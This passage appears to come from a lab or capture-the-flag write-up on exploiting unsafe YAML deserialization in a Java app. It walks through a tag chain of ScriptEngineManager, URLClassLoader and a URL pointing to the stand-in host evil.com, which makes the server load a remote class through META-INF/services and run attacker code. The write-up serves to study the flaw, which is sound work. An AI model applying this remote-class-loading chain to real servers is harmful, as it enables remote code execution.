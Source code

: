 From the [Oracle/OpenJDK standard library](https://docs.oracle.com/javase/8/docs/api/javax/script/ScriptEngineManager.html). This vulnerability allows remote code execution by exploiting the ability to load arbitrary classes from a remote class path. 
The `!!` [syntax](https://yaml.org/refcard.html) is being used to explicitly define the types for the objects being created in the YAML structure. 

- `!!VulnerableClass`: This declares that the root object is of type `VulnerableClass`.
- `!!javax.script.ScriptEngineManager`: This indicates that the value of the command key should be treated as an instance of the `javax.script.ScriptEngineManager` class.
- `!!java.net.URLClassLoader`: This creates an instance of `java.net.URLClassLoader`.
- `!!java.net.URL`: This explicitly creates an instance of `java.net.URL` with the value `http://evil.com`. Which means this can make a request to `http://evil.com`.

![image](img/analyze_1.png)
When i host a server and then receive the request from vulnerable app, it head to `/META-INF/services/javax.script.ScriptEngineFactory`. So what is it and how we can execute code. 
From this [post](https://stackoverflow.com/questions/4544899/java-meta-inf-services):
> It's intended to store service provider configuration files.
>
> A Service provider is an implementation of a Service Provider Interface packaged as JAR.
>
> A Service loader discover and load all implementations declared in the service provider configuration file.
>
> A configuration file is a file named as the fully qualified name of the interface and its content is a list of fully qualified names of implementations.

In brief, `/META-INF/services` contain the service when we import class in Java. And the payload I send that will point to `javax.script.ScriptEngineManager` class. 

From [this docs in oracle](https://docs.oracle.com/javase/8/docs/api/javax/script/ScriptEngineManager.html), It said that`ScriptEngineManager` simply return a string that use as a class name. So I can fake a class name which contains actual exploit which will perform remote code execution on the server.

![image](img/analyze_2.png)

